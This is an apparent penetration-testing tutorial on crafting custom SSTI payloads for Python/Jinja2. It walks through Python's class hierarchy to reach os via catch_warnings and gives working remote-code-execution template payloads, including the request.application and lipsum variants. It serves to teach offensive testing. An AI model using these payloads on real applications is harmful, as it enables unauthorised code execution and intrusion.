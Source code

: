 There will be times where we will be needing to construct a custom payload to exploit SSTI vulnerabilities. For example, a template engine that executes templates inside a sandbox, which can make exploitation difficult or impossible.
## Navigating Python Objects and Inheritance Trees
In Python, everything is an object! While this is a fundamental property and feature of the language, we are going to focus on one very particular thing one can do: navigating the inheritance tree of objects and, thus, classes.

1. The first step is to open up a Python environment and understand Python's hierarchy. Using `__mro__` or `mro()`, we can go back up the three of inherited objects in the Python environment.
```python
import flask

s = 'HTB'
s.__class__.mro()[1].__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
2. Next is to look for useful classes that can facilitate remote code execution. We can use the following function to do so:
```python
def searchfunc(name):
     x = s.__class__.mro()[1].__subclasses__()
     for i in range(len(x)):
        fn = x[i].__name__
        if fn.find(name) > -1:
            print(i, fn)

searchfunc('warning')
```
The reason we are searching for `warning` is because, this class imports Python's `sys` module, and from `sys`, we can reach the `os` module.
> Note: This is not the only module that can be used for SSTI exploitation. For example, the `_io._IOBase` module can be utilized to read local files. Read more [here](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/).

3. We will now attempt to reach the `import` by walking through the hierarchy.
```python
x = s.__class__.mro()[1].__subclasses__()
y = x[VALUE] # Note: Replace "VALUE" with the actual integer result from searchfunc

z = y()._module.__builtins__
for i in z:
	if i.find('import') > -1:
		print(i, z[i])
```
4. Test for RCE
```python
y()._module.__builtins__['__import__']('os').system('echo RCE')
```
## Custom Jinja2 Payload
We can replicate the steps above to achieve RCE using custom payload in Jinja template.

1. To test, we can start with the following payload
```python
{{ ''.__class__.__mro__ }}
```
2. Once confirmed, show all subclasses or retrieve the total number of subclasses
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()|length }}
```
3. To make step 2 easier, we can just craft a for loop to put index on all subclasses.
```python
{% for i in range(454) %} {{i}} {{''.__class__.__mro__[1].__subclasses__()[i].__name__}} {% endfor %}

# Note: The value of range() should be the total length of subclasses.
```
4. Again, we will be looking for `catch_warnings` subclass. Once we have identified its index number, we can now craft our final payload to achieve RCE.
```python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system('id')}}
```

Additionally, we can also use specific Jinja2's specific functions to exploit SSTI vulnerabilities. These are the `request` and `lipsum`:
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
```python
{{lipsum.__globals__.os.popen('id').read()}}
```